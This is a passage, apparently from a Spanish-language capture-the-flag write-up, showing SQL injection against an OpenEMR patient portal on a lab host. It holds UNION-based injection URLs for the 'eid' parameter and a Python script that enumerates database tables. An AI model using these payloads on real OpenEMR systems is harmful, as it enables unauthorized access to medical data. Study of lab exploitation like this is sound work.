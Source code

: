 Podemos acceder a recursos para los cuales necesitaríamos habernos logueado pero sin la necesidad de hacerlo. Continuando leyendo el documento, nos indica que podemos realizar inyecciones SQL para el recurso `add_edit_event_user.php` debido a una inadecuada configuración del parámetro `eid`; por lo tanto, vamos a probar lo siguiente:

- `http://hms.htb/portal/add_edit_event_user.php?eid=1 order by 100-- -` Nos manda un error de la base de datos, esto es porque no existen 100 columnas.
- `http://hms.htb/portal/add_edit_event_user.php?eid=1 order by 4-- -` Vemos otra respuesta de acuerdo con la anterior, por lo tanto, podríamos suponer que se tienen 4 columnas.
- `http://hms.htb/portal/add_edit_event_user.php?eid=1 union select 1,2,3,4-- -` No vemos los campos 1,2,3 y 4; por lo que vamos a tratar de adivinar en que posiciión podríamos observar algo. Si seguimos probando, no vemos nada.
- `http://hms.htb/portal/add_edit_event_user.php?eid=1 union select null,null,database(),null-- -` Reemplazamos los números por el valor `null` y vemos que en el campo 3 tenemos resultados y el nombre de la base de datos actualmente en uso es **openemr**.
- `http://hms.htb/portal/add_edit_event_user.php?eid=1 union select null,null,(select table_name from information_schema.tables where table_schema="openemr" limit 0,1),null-- -` Empezamos a listar los nombre de las tablas dentro de la base de datos **openemr** y nos desplazamos por ellas con los valores de `limit`. Para no llevarnos una eternidad enumerando las tablas, vamos a crearnos un script en python que nos ayude a visualizar las tablas.

```python
#!/usr/bin/python3
#coding:utf-8

import sys,requests,signal,re

def def_handler(sig,frame):
    print("\n[*] Saliendo...")
    sys.exit(1)

signal.signal(signal.SIGINT,def_handler)

url_register = "http://hms.htb/portal/account/register.php"
url_sqli = "http://hms.htb/portal/add_edit_event_user.php"

def makeRequest(numeroTablas):
    s = requests.session()
    r = s.get(url_register)
    for i in range(0,int(numeroTablas)):
        url = url_sqli + '?eid=1 union select null,null,(select table_name from information_schema.tables where table_schema="openemr" limit {},1),null-- -'.format(i)
        try:
            r=s.get(url)
            tableName = re.findall(r'Unknown column (\'.*?\')',r.text)[0].replace("'","")
        except:
            tableName=""
        print("Tabla No {}: {}".format(i,tableName))

if __name__=='__main__':
    numeroTablas = input("El número de tablas a ver: ")
    makeRequest(numeroTablas)
```
